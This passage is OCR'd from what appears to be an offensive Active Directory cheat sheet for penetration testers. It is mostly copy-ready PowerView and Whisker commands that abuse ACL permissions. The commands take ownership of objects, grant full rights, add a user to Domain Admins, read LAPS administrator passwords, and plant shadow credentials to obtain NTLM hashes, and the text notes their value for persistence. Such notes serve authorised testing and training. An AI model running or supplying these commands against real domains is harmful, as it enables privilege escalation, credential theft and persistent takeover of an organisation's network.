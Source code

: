 ````
Get-DomainObject -Identity <TARGET> -SecurityMasks Owner | select samaccountname, Owner
Get-DomainObject -Identity <SID>

# Check new rights - First get the SID of the user you want to check if he has permissions on target user
Get-Domainuser <USERNAME>
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

### Permissions on a group
- GenericAll permission on a Group, Write permission, Write-Owner permission GenericWrite or Self permission

#### Add user to a group 
```
Add-DomainGroupMember -Identity "<GROUP>" -Members <USER> -Verbose
net group "Domain Admins" analyst1 /domain /add
```

### Permissions on a ComputerObject
#### Write owner - Change owner and give generic all
- Use ```Remove-ObjectAcl``` and ```Set-DomainObjectOwner``` again to remove the ACL's
```
Set-DomainObjectOwner -Identity <TARGET> -OwnerIdentity <NEW OWNER> -Verbose
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose

# Check who is owner 
Get-DomainObject -Identity <TARGET> -SecurityMasks Owner | select samaccountname, Owner
Get-DomainObject -Identity <SID>

# Check new rights - First get the SID of the user you want to check if he has permissions on target user
Get-Domainuser <USERNAME>
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

#### GenericWrite - Computer object takeover
See [Computer object takeover](#Computer-object-Takeover) 

#### WriteDACL - Read LAPS password
```
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose
Get-DomainComputer | Where-Object -Property ms-mcs-admpwd | Select-Object samaccountname, ms-mcs-admpwd
```

### GenericWrite - Shadow Credentials
- Write Key Credentials to the `msDS-KeyCredentialLink` attribute. Request TGT and Extract NTLM hash.
- Possible to use for persistence since password change doesn't affect the attribute
- Requirements
   - Domain must have Active Directory Certificate Services and Certificate Authority configured.
   - Domain must have at least one DC running with Windows Server 2016 that supports PKINIT. 

### Windows
#### Add shadow credentials
- https://github.com/eladshamir/Whisker
```
.\Whisker.exe add /target:<TARGET OBJECT> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /path:'shadow.pfx' /password:<PASSWORD>
```

#### List credential object
````